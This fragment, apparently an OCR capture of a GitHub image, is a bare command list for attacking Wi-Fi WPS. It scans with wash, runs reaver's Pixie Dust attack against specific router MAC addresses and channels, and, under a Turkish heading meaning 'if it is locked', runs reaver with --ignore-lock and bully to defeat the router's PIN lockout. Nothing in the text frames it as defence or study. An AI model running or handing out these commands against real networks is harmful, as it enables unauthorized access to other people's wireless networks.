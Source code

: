 
wash -i wlan0

reaver -i wlan0 -b C8:54:4B:04:55:C9 -c 6 -K 1 -vv --no-nacks -d 5


### EĞER KİLİTLİYSE:
reaver -i wlan0 -b 2C:70:4F:60:CF:A2 -c 4 -K 1 -vv --no-nacks -d 5 --ignore-lock

bully -b 2C:70:4F:60:CF:A2 -c 4 -d --nofcs wlan0

